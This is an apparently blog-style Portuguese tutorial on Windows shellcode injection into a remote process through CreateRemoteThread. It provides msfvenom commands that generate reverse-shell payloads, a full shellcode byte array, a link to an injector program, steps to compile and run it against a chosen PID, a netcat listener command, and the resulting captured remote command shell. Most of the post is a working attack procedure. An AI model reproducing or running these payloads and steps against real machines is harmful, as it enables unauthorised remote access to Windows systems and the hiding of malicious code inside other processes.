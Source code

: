 ```yaml
---
title: Injeção de Código - Injection Remote Process PID
category: post
---
```


>link do código usado : 
https://github.com/d0x75/Injector-RemoteProcess.git


**Windows CreateRemoteThread Shellcode Injection and Execution in Remote Process**

>Essa também é uma o clássica Injeção de Shellcode que
no caso é feito em outro módulo/processo que está em execução no computador alvo. O PID do módulo/processo é a referencia que utilizamos para injetar o shellcode.

>Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme a seguir :


#### Step 1

- Gerar os bytes do shellcode para Windows x86, apontando para o IP e Porta do computador que vai ganhar o acesso.



```ruby
msfconsole
msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP e Porta do computador que vai ganhar o acesso.


```ruby
msfconsole
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

```c++
		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";
```


#### Step 2

- Abrir o código do link mencionado no inicio, que tem o
código responsável por executar os bytes gerados acima.


```text
injectremotePID.cpp
```

- Copiar os bytes gerados pelo msfvenom no Step 1, em seguida devemos colar esses bytes no conteúdo da variável *unsigned char shellcode[] = ""* do código 'injectremotePID.cpp' e depois compilar-lo.

- Ao compilar o software com sucesso teremos o executável pronto para uso.


```text
injectremotePID.exe
```

#### Step 3

- Anotar o PID do processo/módulo em que iremos injetar o shellcode.



		Para sabermos o PID de um processo podemos usar o "ProcessHacker", "procexp" ou o próprio "Gerenciador de Tarefas".


- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador com o IP que também colocamos como argumento no msfvenom para gerar o shellcode :


```bash
nc -vlp 1234
```

- Executar o binário compilado no _Step 2_ para injetar o shellcode passando o PID anotado acima como argumento na hora de executar o 'injectremotePID.exe' :


```cmd
injectremotePID.exe 2004
```

- Feito isso, já devemos ganhar o acesso ao computador que executou o shellcode.


```DOS
nc -vlp 1234
listening on [any] 1234 ...
192.168.10.109: inverse host lookup failed: Host name lookup failure
connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
Microsoft Windows [vers�o 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Users\VBOX_7\Desktop>
```
